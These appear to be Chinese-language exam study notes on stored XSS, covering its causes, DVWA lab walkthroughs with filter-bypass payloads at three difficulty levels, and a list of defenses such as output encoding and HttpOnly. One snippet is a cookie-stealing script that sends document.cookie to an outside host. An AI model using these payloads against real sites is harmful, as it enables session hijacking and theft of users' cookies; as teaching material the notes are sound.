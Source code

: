 2. 指由于Web应用程序对用户**输入数据的不严格**，导致Web应用程序将黑客输入的恶意跨站攻击数据信息保存在**服务端的数据库或其他文件形式**中，当网页进行数据查询展示时，会从数据库中获取数据内容，并将数据内容在网页中进行输出展示，进而导致跨站脚本代码的执行。

3. 产生XSS的原因

   （1）浏览器可以解析和执行JavaScript等脚本语言，但不会判断数据和代码是否恶意

   （2）输入和输出是Web应用程序最基本的功能，如果没有做好安全防护，很容易出现XSS漏洞

   （3）触发XSS漏洞的方式非常简单，只要向HTML代码中注入脚本即可。

3. ![image-20240702001933019](C:\Users\Annie\AppData\Roaming\Typora\typora-user-images\image-20240702001933019.png)

   ```
   存储型xss
   https://www.cnblogs.com/linfangnan/p/13702319.html#%E6%BA%90%E7%A0%81%E5%AE%A1%E8%AE%A1
   ```
   
   ```html
   实验案例：dvwa/vulnerabilities/xss_r/
   • Low Level
   • 使用trim()函数、stripslashes()函数和mysqli_real_escape_string函数对message和name进行了过滤。
   • message一栏输入：<script>alert(/xss/)</script>
   • name一栏前端有字数限制，F12修改字数限制（maxlength） 或抓包改为<script>alert(/name/)</script>
   
   Middle Level
   • 使用trim()函数、stripslashes()函数和htmlspecialchars()函数对message进行了过滤。htmlspecialchars() 函数把预定义的字符转换为 HTML 实体，无法绕过。但name只使用了一个str_replace函数，来替换<script>，因此我们可以对name下手。
   • <SCRIPT>alert('xss')</SCRIPT>
   
   High Level
   • stored_xss_check.php中使用trim()函数、stripslashes()函数和htmlspecialchars()函数对message进行了过滤，无法绕过。
   • 使用了preg_replace（）函数对name进行了过滤。
   • 在name控件使用<img>标签：
   • <img src=1 onerror=alert(/xss/)>
   ```
   
   

窃取cookie的payload（见实验记得写准确）

```javascript
<script> 
img = new Image(); 
img.src = 
"http://leaveword2cookie/cookie/cookie.php?cookie="+document.cookie; 
</script> 
```

![image-20240702002559405](C:\Users\Annie\AppData\Roaming\Typora\typora-user-images\image-20240702002559405.png)

xss攻击的防范（背：每一种都要写）

1. **输入过滤**：对用户提交的信息进行有效验证、过滤有害的输入(<、>、'、”、#等敏感字符)
2. **输出编码**：htmlspecialchars()函数
3. **Anti-XSS**:微软开发的.NET平台下
   用于防止XSS攻击的类库，提供了大量的编码函数用于处理用户的输入，可实现输入白名单机制和输出转义。
4. **HttpOnly**：Web应用程序在设置
   Cookie时，将其属性设置为HttpOnly，可以避免该网页的Cookie被客户端JavaScript存取，保护用户的Cookie不被盗取。
5. **防御DOM XSS**：避免客户端文档重写、重定向或其他敏感操作，同时避免使用客户端数据，这些操作尽量在服务端使用动态页面来实现，分析和强化客户端的JavaScript代码。

---